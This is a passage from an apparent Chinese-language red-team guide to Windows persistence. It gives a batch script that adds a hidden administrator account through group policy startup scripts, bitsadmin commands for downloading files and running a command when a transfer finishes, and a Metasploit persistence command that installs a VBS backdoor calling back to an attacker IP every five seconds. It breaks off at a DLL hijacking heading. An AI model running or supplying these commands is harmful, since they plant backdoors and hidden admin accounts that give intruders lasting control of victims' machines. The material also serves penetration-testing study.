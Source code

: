 ## 11. 组策略设置脚本启动

    1. 首先创建一个脚本，此处为添加隐藏用户，内容如下：

    ```bat
        @echo off
        net user test$ Test123456. /add
        net localgroup administrators test$ /add
        exit
    ```

## 12. bitsadmin

    BITS (后台智能传送服务) 是一个 Windows 组件，它可以在前台或后台异步传输文件，为保证其他网络应用程序获得响应而调整传输速度，并在重新启动计算机或重新建立网络连接之后自动恢复文件传输。

    常用命令
    ```cmd
        bitsadmin /create [type] DisplayName //创建一个任务
        bitsadmin /cancel <Job> //删除一个任务
        bitsadmin /list /allusers /verbose //列出所有任务
        bitsadmin /AddFile <Job> <RemoteURL> <LocalName> //给任务test添加一个下载文件
        bitsadmin /SetNotifyCmdLine <Job> <ProgramName> [ProgramParameters] //设置在任务完成传输时或任务进入状态时将运行的命令行命令。
        bitsadmin /Resume <Job> //激活传输队列中的新任务或挂起的任务。
        bitsadmin /cancel <Job> //删除某个任务
        bitsadmin /reset /allusers //删除所有任务
        bitsadmin /complete <Job> //完成某个任务
    ```

    ```cmd
        win7演示
    ```

## 13. msf persistence后门

    使用persistence模块创建后门。
    参数：
        -A 自动启动匹配的exploit/multi/handler 连接到代理
        -L <opt> 目标主机中要写入有效负载的位置，如果没有，将使用 %TEMP%。
        -P <opt> 要使用的有效负载，默认为 windows/meterpreter/reverse_tcp。
        -S 在启动时自动启动代理作为服务（具有 SYSTEM 权限）
        -T <opt> 要使用的备用可执行模板
        -U 用户登录时自动启动代理
        -X 系统启动时自动启动代理
        -h 帮助菜单
        -i <opt> 每次连接尝试之间的时间间隔（以秒为单位）
        -p <opt> 运行 Metasploit 的系统正在监听的端口
        -r <opt> 运行 Metasploit 的系统的 IP 监听连接
        
    执行如下命令，在目标机创建一个vbs后门，每5秒进行回连：
        `run persistence -S -U -X -i 5 -p 55555 -r 192.168.1.128`

## 14. DLL劫持
